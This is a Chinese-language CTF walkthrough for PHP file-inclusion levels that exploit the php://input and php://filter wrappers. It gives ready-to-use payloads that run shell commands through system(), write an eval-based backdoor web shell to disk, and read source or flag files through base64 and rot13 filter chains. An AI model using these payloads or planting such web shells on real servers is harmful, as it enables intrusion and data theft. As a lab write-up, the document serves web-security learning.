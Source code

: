 ### Level 6  php:// 协议

> php:// — 访问各个输入/输出流（I/O streams），PHP中最为复杂和强大的协议(https://www.php.net/manual/zh/wrappers.php.php)。
>
> 在CTF中经常使用的如下：
>
> php://input - 可以访问请求的原始数据的只读流，在POST请求中访问POST的data部分，在enctype="multipart/form-data" 的时候php://input 是无效的。常用于执行代码。 依赖：allow_url_include:On
>
> php://filter - (PHP_Version>=5.0.0)其参数会在该协议路径上进行传递，多个参数都可以在一个路径上传递，从而组成一个过滤链，常用于数据读取。

Demo 关卡，用于自由探索  php:// 协议，你可以使用下面任意一种方法通关（不唯一）：

```php
php://input + [<?= system('tac flag.???');?>]
php://input + [<?php fputs(fopen('backdoor.php','w'),'<?php @eval($_GET[ctf]); ?>'); ?>]

php://filter//resource=/flag
php://filter/read=convert.base64-encode/resource=flag.php
php://filter/convert.base64-encode/resource=flag.php
```

### Level 7  php://input 协议

> php://input - 可以访问请求的原始数据的只读流，在POST请求中访问POST的data部分，在enctype="multipart/form-data" 的时候php://input 是无效的。常用于执行代码。 依赖：allow_url_include:On
>
> php://input做为include的直接参数时，如题，php执行时会将post内容当作文件内容，要注意，php://input不支持post提交，其请求的参数格式是原生(Raw)的内容，无法使用hackbar提交，因为hackbar不支持raw方式  

题目已经提供对应答案：

```php
<?php eval($_GET['ctf']); ?> /* 间接代码执行 */ 

<?php fputs(fopen('backdoor.php','w'),'<?php eval($_POST["ctf"]); ?>'); ?> /* 生成后门木马 */ 

<?= system('tac flag.???');?> /* 直接命令执行 */  

```

### Level 8 php://filter_过滤器&字符串过滤器

GET：`?wrappers=filter/string.rot13/resource=/flag`

### Level 9 php://filter_转换过滤器

GET：`?wrappers=filter/convert.base64-encode/resource=flag.php`

### Level 10 文件系统函数_file_get_contents()

我们常见的文件包含题目的大多数考点主要集中在类似 include() 函数（这里的类似强调的是 incdlue、require、include_once、require_once）的调用上，除开直接的文本包含，更多还涉及到了一些封装协议(wrappers)的使用，比如 file 协议、data 协议、php 协议等等。

早在我们之前提及该部分对应文档 【支持的协议和封装协议】https://www.php.net/manual/zh/wrappers.php 时，其中的这样一句话就有强调 “PHP 带有很多内置 URL 风格的封装协议，可用于类似 fopen()、 copy()、 file_exists() 和 filesize() 的文件系统函数。”这些函数的特定 —— 【文件系统·文件系统函数】https://www.php.net/manual/zh/book.filesystem.php。
